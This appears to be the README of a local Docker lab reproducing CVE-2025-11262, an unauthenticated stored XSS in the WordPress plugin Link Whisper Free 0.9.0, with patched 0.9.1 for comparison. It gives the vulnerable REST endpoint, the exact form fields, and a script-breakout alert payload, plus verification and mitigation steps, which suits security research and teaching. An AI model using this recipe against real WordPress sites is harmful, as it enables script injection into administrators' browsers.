

# CVE Lab: CVE-2025-11262 - Link Whisper Free Unauthenticated Stored XSS

## Executive Summary

This repository contains a local Docker lab for reproducing **CVE-2025-11262**, an unauthenticated stored cross-site scripting issue affecting the WordPress plugin **Link Whisper Free**.

The lab compares two plugin versions:

| Service | Plugin version | Purpose | URL |
|---|---:|---|---|
| `vuln` | `0.9.0` | Vulnerable target | `http://127.0.0.1:8081` |
| `patched` | `0.9.1` | Patched comparison target | `http://127.0.0.1:8082` |

The demonstrated vulnerability chain is:

```text
Unauthenticated REST request
→ attacker-controlled user_id is persisted
→ a privileged WordPress user opens the Link Whisper AI Subscription page
→ the stored value is rendered into an admin JavaScript context
→ alert("CVE-2025-11262-LAB") executes on the vulnerable version
```

The attacker does **not** need to be logged in to plant the stored payload. The JavaScript executes later when a privileged WordPress user opens the affected admin page.

This lab is designed for controlled local research, source-level understanding, and portfolio demonstration only.

## Verified Facts

| Claim | Evidence | How to verify in this lab |
|---|---|---|
| Link Whisper Free `0.9.0` is vulnerable. | Public advisories identify Link Whisper Free versions up to and including `0.9.0` as affected. | Run the PoC against `http://127.0.0.1:8081` and open the printed admin URL. |
| Link Whisper Free `0.9.1` contains the fix. | Public advisory and changelog data identify `0.9.1` as the patched version. | Run the same PoC against `http://127.0.0.1:8082`; no alert should appear. |
| Payload planting is unauthenticated. | The PoC sends a POST request without WordPress cookies, login, or nonce. | Inspect `poc/poc.py`; it only requires `--url`. |
| The visible impact is triggered in the WordPress admin area. | The stored value is rendered when the Link Whisper AI Subscription page is opened by a privileged user. | After running the PoC, log in as admin and open the printed admin URL. |
| The patched target may still return `"ok"` at the HTTP layer. | Local testing showed both targets can return `"ok"`; the meaningful difference is whether the payload is persisted and executed. | Compare browser behavior on `8081` and `8082`. |

## Root Cause Summary

The issue is a stored XSS chain across input handling, persistence, and output rendering.

In the vulnerable version, the Link Whisper AI authentication REST endpoint accepts attacker-controlled input through the `user_id` parameter:

```text
/wp-json/link-whisper/ai-auth
```

The vulnerable version accepts the request without requiring authentication and stores the supplied `user_id` value. That stored value is later used by the Link Whisper AI Subscription admin page.

In Link Whisper Free `0.9.0`, the stored value is rendered into a JavaScript context without sufficient validation and output escaping. A payload can therefore break out of the original script context and execute JavaScript in the administrator's browser.

The patched version, `0.9.1`, adds stricter validation and escaping so the same payload is not stored or executed.

## Lab Architecture

The lab runs two isolated WordPress instances and two separate MySQL databases through Docker Compose.

```text
.
├── docker/
│   └── lab-entrypoint.sh
├── docker-compose.yml
├── patched/
│   └── Dockerfile
├── poc/
│   └── poc.py
├── README.md
└── vuln/
    └── Dockerfile
```

The Docker entrypoint automatically:

- waits for WordPress and the database,
- installs WordPress if needed,
- activates Link Whisper Free,
- prepares the admin page needed for the reproduction,
- prints the lab login details.

Default WordPress administrator credentials for both services:

```text
admin / AdminPassw0rd!
```

## Requirements

- Docker Desktop or Docker Engine
- Docker Compose v2
- Python 3
- Internet access during image build, because the Dockerfiles download plugin packages from WordPress.org

## Quick Start

Build and start the lab:

```bash
docker compose down -v
docker compose build --no-cache
docker compose up -d
```

Check the containers:

```bash
docker compose ps
```

Expected exposed services:

```text
Vulnerable target: http://127.0.0.1:8081
Patched target:    http://127.0.0.1:8082
```

You can also watch the setup logs:

```bash
docker compose logs vuln patched
```

A successful setup should show Link Whisper active in each WordPress instance.

## PoC Usage

Run the PoC against the vulnerable service:

```bash
python3 poc/poc.py --url http://127.0.0.1:8081
```

The PoC sends this local-only payload through the unauthenticated REST endpoint:

```html
</script><script>alert("CVE-2025-11262-LAB")</script>
```

After the script runs, open the printed admin URL in a browser and log in with:

```text
admin / AdminPassw0rd!
```

On the vulnerable service, the browser should display an alert containing:

```text
CVE-2025-11262-LAB
```

For comparison, run the same PoC against the patched service:

```bash
python3 poc/poc.py --url http://127.0.0.1:8082
```

Then open the printed admin URL for the patched service. No alert should be triggered.

## Expected Output

Vulnerable target:

```text
[scope] local Docker lab only
[target] http://127.0.0.1:8081
[endpoint] http://127.0.0.1:8081/wp-json/link-whisper/ai-auth
[payload] </script><script>alert("CVE-2025-11262-LAB")</script>

[result]
http_status: 200
response_body: '"ok"'

[next step]
Open this URL in a browser and login as the lab administrator:

http://127.0.0.1:8081/wp-admin/admin.php?page=link_whisper_ai_subscription
```

Patched target:

```text
[scope] local Docker lab only
[target] http://127.0.0.1:8082
[endpoint] http://127.0.0.1:8082/wp-json/link-whisper/ai-auth
[payload] </script><script>alert("CVE-2025-11262-LAB")</script>

[result]
http_status: 200
response_body: '"ok"'
```

The HTTP response alone is not enough to determine whether the target is vulnerable. The important difference is the browser behavior after the privileged user opens the affected admin page.

## Screenshot Evidence



Suggested screenshot target:

```text
http://127.0.0.1:8081/wp-admin/admin.php?page=link_whisper_ai_subscription
```

The screenshot should show the browser alert with:

```text
CVE-2025-11262-LAB
```

## How the PoC Works

The PoC is intentionally small and only requires a target URL:

```bash
python3 poc/poc.py --url http://127.0.0.1:8081
```

It sends a POST request to:

```text
/wp-json/link-whisper/ai-auth
```

with the following form fields:

```text
access_token = ai-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
user_id      = </script><script>alert("CVE-2025-11262-LAB")</script>
uid          = 1
uemail       = admin@example.test
```

On the vulnerable service, the stored value is later rendered into the AI Subscription page. When an administrator opens that page, the JavaScript executes.

On the patched service, the same payload should not result in an alert.

## Useful Verification Commands

Check plugin versions:

```bash
docker compose exec -T vuln wp plugin list --allow-root | grep link-whisper
docker compose exec -T patched wp plugin list --allow-root | grep link-whisper
```

Check whether the vulnerable service stored the payload:

```bash
docker compose exec -T vuln wp option get wpil_ai_access_user_id --allow-root
```

Expected vulnerable value:

```html
</script><script>alert("CVE-2025-11262-LAB")</script>
```

Check the patched service:

```bash
docker compose exec -T patched wp option get wpil_ai_access_user_id --allow-root
```

Expected patched behavior:

```text
Error: Could not get 'wpil_ai_access_user_id' option. Does it exist?
```

Check REST endpoint access logs:

```bash
docker compose logs vuln patched | grep 'wp-json/link-whisper/ai-auth'
```

## Mitigation and Patch Notes

Upgrade Link Whisper Free to `0.9.1` or later.

The patch prevents this lab payload from being persisted and rendered by adding stricter validation and safer output handling around the affected AI authentication flow.

For production environments, also consider:

- keeping WordPress plugins updated,
- limiting administrative access,
- monitoring unexpected requests to plugin REST endpoints,
- reviewing suspicious script-like values in WordPress options,
- applying defense-in-depth filtering where appropriate.

## Cleanup

Stop and remove containers, networks, and volumes:

```bash
docker compose down -v
```

Remove locally built images if desired:

```bash
docker image rm cve-2025-11262-vuln cve-2025-11262-patched 2>/dev/null || true
```

## Safety Boundaries

This lab is for local security research and controlled demonstration only.

Do not run the PoC against systems you do not own or do not have permission to test.

Do not use real credentials, production secrets, or external callbacks in this lab.

The PoC intentionally uses a visible `alert()` marker for screenshot evidence. It does not include payloads for credential theft, session theft, persistence beyond the lab, or automated administrator actions.

## References

- GitHub Advisory Database: CVE-2025-11262 / GHSA-7h4c-hr9j-8q85  
  https://github.com/advisories/GHSA-7h4c-hr9j-8q85

- Wordfence Intelligence: Link Whisper Free vulnerability database entry  
  https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/link-whisper

- WordPress.org Plugin Directory: Link Whisper Free  
  https://wordpress.org/plugins/link-whisper/

- WordPress.org plugin package used by the vulnerable lab  
  https://downloads.wordpress.org/plugin/link-whisper.0.9.0.zip

- WordPress.org plugin package used by the patched lab  
  https://downloads.wordpress.org/plugin/link-whisper.0.9.1.zip

- WordPress plugin source browser: Link Whisper `0.9.0` Rest.php  
  https://plugins.trac.wordpress.org/browser/link-whisper/tags/0.9.0/core/Wpil/Rest.php

- WordPress plugin source browser: Link Whisper `0.9.1` Rest.php  
  https://plugins.trac.wordpress.org/browser/link-whisper/tags/0.9.1/core/Wpil/Rest.php

- WordPress plugin source browser: Link Whisper `0.9.0` Settings.php  
  https://plugins.trac.wordpress.org/browser/link-whisper/tags/0.9.0/core/Wpil/Settings.php

- WordPress plugin source browser: Link Whisper `0.9.1` Settings.php  
  https://plugins.trac.wordpress.org/browser/link-whisper/tags/0.9.1/core/Wpil/Settings.php
